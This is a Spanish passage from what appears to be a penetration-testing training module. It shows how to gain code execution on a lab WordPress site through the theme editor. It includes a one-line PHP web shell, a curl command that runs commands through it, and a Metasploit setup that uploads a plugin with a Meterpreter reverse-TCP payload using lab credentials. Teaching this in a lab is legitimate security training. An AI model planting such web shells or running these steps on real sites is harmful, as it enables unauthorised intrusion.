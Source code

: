 
## Code Execution

Con acceso administrativo a WordPress, podemos modificar el código fuente de PHP para ejecutar comandos del sistema. Inicia sesión en WordPress con las credenciales del usuario `john`, lo que nos redirigirá al panel de administración. Haz clic en `Appearance` en el panel lateral y selecciona Theme Editor. Esta página nos permitirá editar directamente el código fuente de PHP. Se puede seleccionar un tema inactivo para evitar corromper el tema principal. Ya sabemos que el tema activo es Transport Gravity. En su lugar, se puede elegir un tema alternativo como Twenty Nineteen.

Haz clic en `Select` después de seleccionar el tema, y podemos editar una página poco común como `404.php` para agregar un web shell.

```r
system($_GET[0]);
```

El código anterior debería permitirnos ejecutar comandos a través del parámetro GET `0`. Agregamos esta única línea al archivo justo debajo de los comentarios para evitar demasiada modificación del contenido.

`http://blog.inlanefreight.local/wp-admin/theme-editor.php?file=404.php&theme=twentynineteen`

![](https://academy.hackthebox.com/storage/modules/113/theme_editor.png)

Haz clic en `Update File` en la parte inferior para guardar. Sabemos que los temas de WordPress están ubicados en `/wp-content/themes/<theme name>`. Podemos interactuar con el web shell a través del navegador o utilizando `cURL`. Como siempre, podemos utilizar este acceso para obtener un reverse shell interactivo y comenzar a explorar el objetivo.

```r
curl http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?0=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

El módulo [wp_admin_shell_upload](https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_admin_shell_upload/) de Metasploit se puede utilizar para cargar un shell y ejecutarlo automáticamente.

El módulo sube un plugin malicioso y luego lo usa para ejecutar un shell de PHP Meterpreter. Primero necesitamos configurar las opciones necesarias.

```r
msf6 > use exploit/unix/webapp/wp_admin_shell_upload 

[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.local
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set username john
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set password firebird1
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.14.15 
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set rhost 10.129.42.195  
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set VHOST blog.inlanefreight.local
```

Podemos entonces emitir el comando `show options` para asegurarnos de que todo esté configurado correctamente. En este ejemplo de laboratorio, debemos especificar tanto el vhost como la dirección IP, o el exploit fallará con el error `Exploit aborted due to failure: not-found: The target does not appear to be using WordPress`.
